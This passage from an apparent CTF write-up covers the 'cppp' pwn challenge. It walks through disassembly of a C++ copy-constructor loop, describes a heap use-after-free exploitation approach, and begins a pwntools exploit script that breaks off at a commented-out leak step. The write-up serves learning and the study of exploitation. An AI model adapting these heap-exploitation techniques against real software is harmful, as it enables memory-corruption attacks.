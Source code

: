 The loop body is a bit hard to understand due to compiler optimization, but it
is clear if we look at assembly

```assembly  
loc_555555555640:       ; get the next bufsize  
mov     eax, [rbx+20h]  
mov     rdi, rbx  
add     rbx, 30h        ; rbx == next string  
mov     [rbx-40h], eax  ; set this bufsize as next bufsize  
mov     rax, [rbx-8]    ; get next buf  
mov     [rbx-38h], rax  ; this buf = next buf  
mov     rsi, rbx        ; this string = next string  
call    _M_assign  
sub     rbp, 1  
jnz     short loc_555555555640 ; get the next bufsize  
```

I think this is the copy constructor of `kv`

### Exploitation

The C++ heap is a bit messy since many copy constructor will be called, and a
long `std::string` is constructed by continuously appending character, in
which `malloc/free` may be called to extend the chunk size. I successfully
constructed a leak by simply trial and error. :)

```python  
from pwn import *

g_local=True  
context(log_level='debug', arch='amd64')  
e = ELF("/lib/x86_64-linux-gnu/libc-2.27.so")

if g_local:  
	sh = process("./cppp")  
	gdb.attach(sh)  
else:  
	sh = remote("cppp.pwni.ng", 7777)

sh.recvuntil("Choice: ")

def add(name="1", buf="2"):  
	sh.sendline("1")  
	sh.recvuntil("name: ")  
	sh.sendline(name)  
	sh.recvuntil("buf: ")  
	sh.sendline(buf)  
	sh.recvuntil("Choice: ")

def remove(idx):  
	sh.sendline("2")  
	sh.recvuntil("idx: ")  
	sh.sendline(str(idx))  
	sh.recvuntil("Choice: ")

def view(idx):  
	sh.sendline("3")  
	sh.recvuntil("idx: ")  
	sh.sendline(str(idx))  
	ret = sh.recvuntil('\n')  
	sh.recvuntil("Choice: ")  
	return ret[:-1]

#1. leak heap (don't need)  
# add() #0  
# add("uaf") #1  
```